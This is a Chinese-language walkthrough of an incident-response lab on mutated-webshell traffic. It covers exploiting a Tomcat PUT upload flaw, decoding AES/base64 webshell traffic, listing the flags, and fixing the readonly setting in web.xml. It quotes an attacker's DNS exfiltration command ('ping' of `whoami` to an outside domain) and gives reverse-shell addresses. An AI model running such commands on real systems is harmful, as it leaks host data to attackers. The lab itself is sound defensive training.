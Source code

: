 ```yaml
---
{"dg-publish":true,"permalink":"/应急响应靶场/玄机   某变异Webshell流量分析/","tags":["打靶","靶场","渗透","应急响应"]}
---
```



![image.png](https://s2.loli.net/2025/06/07/8QrFgBoCjwOyM1H.png)
[[思/某变异Webshell流量分析 思\|某变异Webshell流量分析 思]]
## 渗透

### 扫描
![image.png](https://s2.loli.net/2025/06/07/HzFwZaWqNpxReQk.png)

fscan 扫描发现有个 8081 的 tomcat。有可能文件任意上传漏洞


### 搜索漏洞
![image.png](https://s2.loli.net/2025/06/07/MmC3AteuUHY9gX2.png)


### 漏洞利用
![image.png](https://s2.loli.net/2025/06/07/wBfuxcEHQrah1JR.png)

利用成功
![image.png](https://s2.loli.net/2025/06/07/S3sMTG1QmnWwbly.png)


上传一个反弹 shell
![image.png](https://s2.loli.net/2025/06/07/12Q5lTyZxgfndcm.png)

## 第一问
![image.png](https://s2.loli.net/2025/06/07/x5VURNjTkGd3AOm.png)

从 wireshark 报文能看出是上传 hello. jsp

flag{hello. jsp}

## 第二问
![image.png](https://s2.loli.net/2025/06/07/85SNHURLIOeotYB.png)

查看 post 包中，能找到密码

## 分析
要对木马进行分析

木马的大致功能是通过加载字节码来执行恶意代码，整个webshell的核心部分逻辑是在字节码中。

## 第三问
在查看 put 包的攻击者上传的马，用了 base 64 解码和 gunzip。找到了秘钥
![image.png](https://s2.loli.net/2025/06/07/9cCNxF4VnZGk8QI.png)


```
oszXCfTeXHpIkMS3
```

![image.png](https://s2.loli.net/2025/06/07/CAQNBbqXeLURFjz.png)

对木马进行分析，里面还有一端加密语法，继续拉到蓝队工具箱进行

也能找到

查看木马能知道。木马是对值进行了 base 64 加密，aes 加密最后加了个 gunzip
## 第四问和第五问
找到 hello. jsp 的木马的 post 包。按照顺序依次解码
![image.png](https://s2.loli.net/2025/06/07/FKd4UZHyc21EwqG.png)

```
ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
flag{ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.}
回显域名也在此
flag{d5454c8975.ipv6.1433.eu.org.}
d5454c8975.ipv6.1433.eu.org.
```

## 第六问
在最后一个木马的包中发现
![image.png](https://s2.loli.net/2025/06/07/O5Ea2rtJC9NmhiM.png)


应该是反链了

![image.png](https://s2.loli.net/2025/06/07/WwbthTML3qei1xv.png)

没做，就是反链
```
	flag{192.168.31.190|2024}
```

## 第七问

发现后面的流量都是 tls 的加密流量。刚好前面解密发现攻击者用了 key. log。上机提取一下

使用 pytohn 服务器传给主机
![image.png](https://s2.loli.net/2025/06/07/jykD9RlvmsceTPf.png)


![image.png](https://s2.loli.net/2025/06/07/lbERQUKDBFCWtJo.png)

跟踪 tls 流，能找到命令

![image.png](https://s2.loli.net/2025/06/07/aqTCiOvNfbGBd1A.png)

```
flag{ls}
```


## 第八问
上机排查
![image.png](https://s2.loli.net/2025/06/07/aPRcn3WlT2kKbH9.png)



发现一个文件自动删除三个文件
![image.png](https://s2.loli.net/2025/06/07/CNzbAsFiZWY78uQ.png)

我们重点检查这三个文件

![image.png](https://s2.loli.net/2025/06/07/6VWTktC5BRmlbuS.png)

云沙箱检查一下

![image.png](https://s2.loli.net/2025/06/07/uQD7at9Lmj81OZb.png)

```
flag{10.10.13.37|4444}
```

## 第九问
涉及 ctf，暂时不做

## 第十问
漏洞修复

Tomcat的 `web.xml` 中​**​默认servlet的 `readonly` 参数被显式设为 `false` ​**​时，攻击者可利用HTTP PUT方法上传恶意JSP文件并执行任意代。改成 true 就能修复

```
    <servlet>  
        <servlet-name>default</servlet-name>  
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>  
        <init-param>  
            <param-name>debug</param-name>  
            <param-value>0</param-value>  
        </init-param>  
        <init-param>  
            <param-name>listings</param-name>  
            <param-value>true</param-value>  
        </init-param>  
<init-param><param-name>readonly</param-name><param-value>true</param-value></init-param>  
        <load-on-startup>1</load-on-startup>  
    </servlet>
```